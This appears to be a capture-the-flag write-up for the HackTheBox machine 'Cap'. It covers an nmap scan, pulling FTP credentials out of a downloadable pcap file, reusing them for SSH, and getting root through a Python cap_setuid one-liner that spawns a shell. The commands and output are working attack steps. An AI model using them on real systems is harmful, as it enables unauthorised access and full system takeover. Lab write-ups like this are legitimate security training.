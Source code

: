 # cap

![](Pasted%20image%2020241201195858.png)

# Enumeration

Performing port scan.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ sudo nmap -sS -T5 -p- -r cap.htb -v | grep open
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
```

Checking the website. This allows us to download the pcap file.

![](Pasted%20image%2020241201202244.png)

We can download multiple pcap files from <http://cap.htb/data/2>, <http://cap.htb/data/3> etc.  

![](Pasted%20image%2020241201202412.png)

However pcap file from <http://cap.htb/data/0> has some sensitive data that I viewed using wireshark.

![](Pasted%20image%2020241201202618.png)

`0.pcap` file contains sensitive data.

![](Pasted%20image%2020241201202824.png)

This FTP username and password can also be used for ssh. Entering to ssh. 

```
┌──[hexadivine@hackthebox]─[~/ctf/tmp]
└──╼ $ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt 
228a68da7cb3f43a269f6a9c9c913---
```

# Privilege Escalation

This machine has linux capabilities exploit. 

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`getcap` file showing `cap_setuid` set for `/usr/bin/python3.8` which is vulnerable to privilege escalation. ([click here](https://gtfobins.github.io/gtfobins/python/#capabilities))

![](Pasted%20image%2020241201204435.png)

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# find / -name *root.txt  2>/dev/null
/root/root.txt
# cat /root/root.txt
a7b22b5ea65a484b4c197eb5db5ac---
```

And we are ROOT.
